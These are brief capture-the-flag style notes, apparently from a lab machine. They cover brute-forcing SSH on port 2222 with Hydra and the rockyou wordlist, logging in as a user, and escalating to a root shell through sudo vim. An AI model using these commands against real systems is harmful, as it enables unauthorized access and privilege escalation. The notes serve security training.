 ##Hydra SSH Against Known username on port 2222

hydra $ip -s 2222 ssh -l <username> -P rockyou.txt

##ssh into victim (port 2222 running SSH is open)

ssh mitch@10.10.240.176 -p 2222

##using gtfobins to search for command for privilege escalation
## use sudo -l to check what can be run as root

vim -c ':!/bin/sh'
